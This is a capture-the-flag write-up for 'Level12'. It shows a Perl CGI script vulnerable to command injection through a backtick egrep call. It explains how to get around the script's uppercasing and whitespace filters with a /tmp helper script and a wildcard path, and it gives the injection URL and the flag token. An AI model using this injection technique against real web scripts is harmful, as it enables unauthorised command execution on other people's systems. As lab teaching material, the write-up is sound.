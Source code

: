 ## Level12

We found a perl script:

```
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}
```

Its a script runing on localhost on port 4646 that takes 2 args but we will focus on the first one because it got a potentiel of command injection in this line :

```@output = `egrep "^$xx" /tmp/xd 2>&1`;```


But first we need to deal with the 2 regex lines:

```
   $xx =~ tr/a-z/A-Z/;
   $xx =~ s/\s.*//;
```
  
 The first one change the alphabets to uppercase
 The second take string after the  last whitespace
 So we can't inject getflag directly we gonna put the command in a file
 So first we need to create a file in tmp we can call it FILE
 cat /tmp/FILE
 
 ```
    #!/bin/bash
    
    getflag > /tmp/token
  ```
 
 `chmod 777 /tmp/FILE` so another user can access it
 we still have one problem its that our output will become like this \`/TMP/FILE/\` and its not a valid path so we will change it to \`/*/FILE/\`
 we go to browser and go to:
 
 ```
 http://machineip:4646/?x="`/*/FILE`"
 ```
 
 comeback to terminal and cat /tmp/token :
 
 ```
 Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
 ```
 
